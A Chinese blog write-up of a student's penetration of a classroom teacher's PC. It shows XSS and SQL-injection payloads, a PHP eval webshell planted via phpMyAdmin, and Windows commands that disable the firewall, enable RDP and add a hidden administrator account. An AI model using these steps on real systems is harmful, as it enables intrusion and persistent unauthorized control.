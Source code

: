 ```yaml
---
title: 记一次教师机环境的渗透
comments: true
hide: false
date: 2022-05-26 20:34:37
urlname: penetrationtest
updated:
password:
tags:
categories:
---
```




水文章，不过是真实事件

<!-- more -->

**注意：**本文所完成操作均已在教师知晓的情况下进行，未对正常教学产生影响，请勿模仿。

## 前言

某节动态WEB课，老师展示了一个Demo，内容是一个注册系统，注册完后展示有数据库全部已注册的信息（select *），既然是系统那肯定会有不安全的地方存在，老师也说开发过程中要注意种种云云，遂测试发现确实有漏洞，进而写了shell，然后拿到windows教师机权限。全部过程教师已知，以下信息已经过修改，并非真实信息，本文目的旨在技术交流，教师机每天都会进行重置还原，本文操作没有对电脑造成任何破坏，请不要对任何操作系统进行破坏或攻击。

## 流程

### 漏洞发现

毕竟是教学Demo，盲猜一手没有任何过滤，果真如此。

注册需要如下信息：姓名，密码，性别，爱好，年龄

注册是`index.htm`，提交信息到`doInsert.php`，然后直接跳转到`doSelect.php`。名称很明显，`doSelect.php`进行了一个

```mysql
select * from table;
```

提交到信息明显是进行了一次插入，猜测后端语句如下。

```mysql
insert into table(Username,Passwd,Gender,Hobby,Age) values('$Username','$Passwd','$Gender','$Hobbys','$Age');
```

抓了包看提交到数据，发现都是明文提交，没有任何加密。

### xss

提交表单跳转后会直接显示在`doSelect.php`，先打一下xss。

提交POST包

```http
Username=<scRipt>alert(1)</scrIpT>&Passwd=1&Gender=男&Hobbys=蹦极&Age=20
```

提交后发现页面没有反应，查看源码，发现username有长度限制

![image-20220526205826254](PenetrationTest/image-20220526205826254.png)

尝试后发现Hobbys处的多选项没有限制固定内容，于是尝试在Hobbys处打xss

```http
Username=zhangsan&Passwd=helloworld&Gender=男&Hobbys=<scRipt>alert(1)</scrIpT>&Age=24
```

测试成功，成功弹窗了（虽然表格格式乱了）

![image-20220526210033391](PenetrationTest/image-20220526210033391.png)

### SQL注入

尝试一下注入，猜测multi没开，所以没法堆叠注入，先闭合。

```http
Username=lisi&Passwd=helloworld&Gender=男\&Hobbys=,version(),'24');--#&Age=24
```

这样insert的语句就变成了

```sql
insert into table(Username,Passwd,Gender,Hobby,Age) values('lisi','helloworld','$Gender\',',version(),'24');--#','24');
```

很完美，提交

![image-20220526210558793](PenetrationTest/image-20220526210558793.png)

再看一下用户

![image-20220526210617022](PenetrationTest/image-20220526210617022.png)

很好，明显就是phpstudy直接起的服务。

尝试了一下`load_file`，`into outfile`发现8太行，在insert语句里似乎没有执行，尝试hex出来也不行

### 峰回路转

既然是phpstudy启动的服务，而且作为教学使用，查看一下会不会有其他有用的东西，果然发现了`phpinfo.php`，获取了其web路径为`D:/phpStudy/WWW`，看了下信息，似乎还有phpMyAdmin，访问一下`/phpMyAdmin`，果然存在。

![image-20220526211536947](PenetrationTest/image-20220526211536947.png)

直接猜解一下，登录成功。既然是root就不客气了，直接执行SQL语句在web目录写个码

```sql
select "<?php @eval($_POST['admin']);?>" into outfile 'D:/phpStudy/WWW/phpinfo2.php';
```

蚁剑直接连接

![image-20220526212000294](PenetrationTest/image-20220526212000294.png)

H盘是老师的U盘，为了信息安全我没有访问，当前目录打开命令行

![image-20220526212151492](PenetrationTest/image-20220526212151492.png)

很好，直接就是admin。

### 尝试远程桌面登录

#### 关闭防火墙

```cmd
NetSh Advfirewall set allprofiles state off 
```

#### 看看防火墙是否关闭

```cmd
Netsh Advfirewall show allprofiles
```

#### 设置远程桌面端口

尝试设置3389不成功，遂转换为3390

```cmd
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_DWORD /v portnumber /d 3390 /f
```

#### 开启远程桌面

```cmd
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
```

#### 检查一下端口是否开放

```cmd
netstat -an|find "3390"
```

![image-20220526212630944](PenetrationTest/image-20220526212630944.png)

#### 添加用户

```cmd
net user admin1 adminadmin /add
```

![image-20220526212832087](PenetrationTest/image-20220526212832087.png)

#### 授权用户组

```cmd
net localgroup Administrators admin1 /add
```

![image-20220526213221439](PenetrationTest/image-20220526213221439.png)

#### 远程登录

此处无图，直接在学生机登录的，在同一网段下

#### 修改多用户同时登录

登录后按照网上教程走，运行打开`gprdit.msc`

然后进行如下设置

![image-20220526213407742](PenetrationTest/image-20220526213407742.png)

结束

## 总结

渗透路上的小小一步，没什么技术含量，毕竟是和机房有关，比较有趣。也只是一个引子，打开了这个大门，以后还会继续往下学习。